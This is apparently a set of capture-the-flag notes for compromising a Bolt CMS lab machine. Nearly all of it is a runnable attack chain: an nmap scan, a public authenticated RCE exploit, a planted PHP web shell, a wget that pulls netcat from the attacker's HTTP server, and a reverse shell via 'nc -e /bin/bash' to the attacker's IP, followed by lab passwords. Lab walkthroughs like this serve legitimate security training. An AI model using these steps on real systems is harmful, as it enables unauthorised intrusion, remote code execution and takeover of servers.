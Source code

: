 All of this HAS to be run in Kali linux, not Attackbox/Ubuntu because of the netcat version!

nmap -sC -sV -A MACHINE_IP

Rev shell:

Download requirements.txt > https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py
pip install -r requirements.txt

Download exploit.py > https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py
python3 exploit.py http://MACHINE_IP admin password

In the above xploit run machine: echo '<?php system($_GET["c"]);?>'>c.php

On Kali run: 
ln -s $(which nc) .
python3 -m http.server 8000

In browser run: 
http://serverip/files/c.php?c=wget http://yourip:8000/nc
http://serverip/files/c.php?c=chmod 755 nc

On Kali run:
ncat -nv -l -p 4444

In browser run:
http://serverip/files/c.php?c=./nc -e /bin/bash yourip 4444

On Kali ncat  run to upgrade shell:
python -c 'import pty;pty.spawn("/bin/bash")'

PASSWORD:

Follow steps on page and get password
wildone/wileec password: snickers
admin password: password

 






